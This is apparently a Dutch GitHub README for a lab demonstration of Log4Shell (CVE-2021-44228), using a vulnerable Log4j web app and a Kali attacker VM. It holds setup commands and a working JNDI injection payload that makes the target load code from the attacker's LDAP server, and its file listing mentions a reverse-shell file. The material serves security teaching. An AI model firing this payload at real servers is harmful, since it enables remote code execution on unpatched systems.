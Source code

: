 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Debian/Ubuntu
- Java JDK

### Stappen:
```bash
sudo apt update && sudo apt install -y default-jdk wget
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
chmod +x setup_target.sh
./setup_target.sh
```

Bezoek de webapp op: [http://<target-ip>:8080](http://<target-ip>:8080)

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Kali Linux
- Java JDK
- Python3

### Stappen:
```bash
sudo apt update && sudo apt install -y default-jdk python3 wget
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```

De exploit zal nu uitgevoerd zijn.
Exploit = touch /tmp/HACKED.txt

---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java + reverse-shell.txt
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
└── log4j2.xml
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
